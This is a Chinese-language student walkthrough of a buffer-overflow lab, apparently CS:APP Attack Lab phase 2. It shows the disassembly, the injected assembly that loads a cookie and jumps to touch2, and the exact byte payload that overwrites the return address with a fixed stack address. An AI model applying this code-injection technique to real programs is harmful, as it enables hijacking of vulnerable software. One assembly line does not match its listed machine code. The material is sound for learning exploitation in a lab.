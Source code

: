 ```asm
  4017b4:	b8 01 00 00 00       	mov    $0x1,%eax
  4017b9:	48 83 c4 28          	add    $0x28,%rsp
  4017bd:	c3                   	retq
  4017be:	90                   	nop
  4017bf:	90                   	nop
```
由于实验指导书中已经告诉我们，这个程序在编译阶段设置了一些参数来关闭了所有对溢出攻击的防护，于是我们猜测栈的地址是否没有随机化。通过gdb调试可以发现每一次%rsp的地址都是一致的
```common
rsp            0x5561dc78	0x5561dc78
```
既然栈的位置固定，那一切都简单了许多。首先我们通过gets将我们需要执行的代码输入到栈上，接着覆盖掉返回地址到栈对应位置，这样返回之后就会执行我们对应的代码，这样有个限制，那就是我们可执行的代码长度受到栈长度的限制，这里限制为0x28字节。 　
现在的问题就是这段代码是什么？很简单，首先我们要将cookies设置到%rdi上，接着我们需要返回到touch2上。第二个问题是cookies存储在什么位置?我们观察touch2的汇编代码
```asm
00000000004017ec <touch2>:
  4017ec:	48 83 ec 08          	sub    $0x8,%rsp
  4017f0:	89 fa                	mov    %edi,%edx
  4017f2:	c7 05 e0 2c 20 00 02 	movl   $0x2,0x202ce0(%rip)        # 6044dc <vlevel>
  4017f9:	00 00 00
  4017fc:	3b 3d e2 2c 20 00    	cmp    0x202ce2(%rip),%edi        # 6044e4 <cookie>
  401802:	75 20                	jne    401824 <touch2+0x38>
  401804:	be e8 30 40 00       	mov    $0x4030e8,%esi
  401809:	bf 01 00 00 00       	mov    $0x1,%edi
  40180e:	b8 00 00 00 00       	mov    $0x0,%eax
  401813:	e8 d8 f5 ff ff       	callq  400df0 <__printf_chk@plt>
  401818:	bf 02 00 00 00       	mov    $0x2,%edi
  40181d:	e8 6b 04 00 00       	callq  401c8d <validate>
  401822:	eb 1e                	jmp    401842 <touch2+0x56>
  401824:	be 10 31 40 00       	mov    $0x403110,%esi
  401829:	bf 01 00 00 00       	mov    $0x1,%edi
  40182e:	b8 00 00 00 00       	mov    $0x0,%eax
  401833:	e8 b8 f5 ff ff       	callq  400df0 <__printf_chk@plt>
  401838:	bf 02 00 00 00       	mov    $0x2,%edi
  40183d:	e8 0d 05 00 00       	callq  401d4f <fail>
  401842:	bf 00 00 00 00       	mov    $0x0,%edi
  401847:	e8 f4 f5 ff ff       	callq  400e40 <exit@plt>
```
发现cookies存储在0x202ce2(%rip)这个位置，那么一切都比较简单了，我们写出如下汇编代码
```asm
  movl 0x202ce2(%rip),%edi
  ret
```
而我们知道ret返回的地址存储在栈上，那么就得仔细的考虑栈指针的位置。我们可以将touch2的调用地址写在第一次返回(getbuf处)的地址之前，然后将getbuf的返回地址设置到栈的我们的代码的对应位置，在代码中将%rsp减掉对应的大小指向存储touch2地址的地址，这样就能实现传参调用的功能了,但这样过于复杂，其实直接用push将对应的地址压入栈即可。于是修改汇编代码如下($6044e4是从objdump的注释处得到的)
```asm
  movl $6044e4,%edi
  pushq $0x4017ec
  ret
```
利用gcc将这段汇编代码翻译成机器码(实验指导书附录B),得到
```asm
0000000000000000 <.text>:
   0:	48 8b 3c 25 e4 44 60 	mov    0x6044e4,%rdi
   7:	00
   8:	68 ec 17 40 00       	pushq  $0x4017ec
   d:	c3                   	retq
```
总共有0xb个字节，类似于实验１中我们可以写出这样的字节序列
```txt
48 8b 3c 25 e4 44 60 00 68 ec 17 40 00 c3 ff ff
ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff
ec 17 40 00 00 00 00 00 78 dc 61 55 00 00 00 00
```
尝试运行，首先用hex2raw翻译成一串string，然后调用这串string，得到
```common
```